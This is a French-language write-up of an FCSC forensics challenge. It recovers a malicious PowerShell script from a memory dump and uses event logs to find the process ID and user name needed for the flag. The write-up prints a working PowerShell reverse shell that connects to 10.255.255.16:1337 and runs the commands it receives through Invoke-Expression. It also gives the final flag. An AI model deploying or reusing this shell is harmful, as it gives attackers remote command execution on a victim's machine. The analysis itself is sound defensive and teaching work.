

## Event log comme dans l'intro


C'est sale mais j'ai refait un `r2  -qcizz M*` 

```powershell
do {
    Start-Sleep -Seconds 1
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

$processId = (Get-Process -Id $PID).Id
$userNameHashCode = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name
$textToHash = $processId.ToString() + $userNameHashCode.ToString()
Write-Host "ID du processus : $processId"
Write-Host "Code de hachage du nom d'utilisateur : $userNameHashCode"
Write-Host "Chaîne de texte à hacher : $textToHash"
$hexString = [System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($textToHash)).Replace('-', '').ToLower()
Write-Host "Valeur de concaténation en hexadécimal : $hexString"


WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name).ToString()))))).Replace('-', '').ToLower())}"


while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}

$StreamWriter.Close()
```

En suivant la logique du chall d'intro le flag est donc:

```powershell
Write-Host "La chaîne est : FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Environment]::UserName).ToString()))))).Replace('-', '').ToLower())}"
```

On recherche alors:

- le PID du processus malveillant
- le nom de l'utilisateur sous la forme DOMAIN\user 

Pour ce dernier, on a en effet la fonction:



## Evxtdump

On peut utiliser un outil comme **evtxdump** pour reformer les 2 fichiers d'event.

Recherchons l'event sur le fichier *sec_events.txt*  à partir de la date de l'event lançant le powershell


Nous avons:

- **SubjectUserName** et **SubjectDomainName** correspondant à l'username
- **ProcessID** correspondant au PID en hexa

##Flag

```powershell
PS /home/burner> $pids = 3788                                                                                                                                                                                                         
PS /home/burner> $username = "FCSC\cmaltese"                                                                                                                                                                                          
PS /home/burner> $hash = [System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(($pids.ToString() + $username).ToString())))).Replace('-', '').ToLower()
PS /home/burner> $hash                                                                                                                                                                                                                
21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa
```

`FCSC{21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa}`

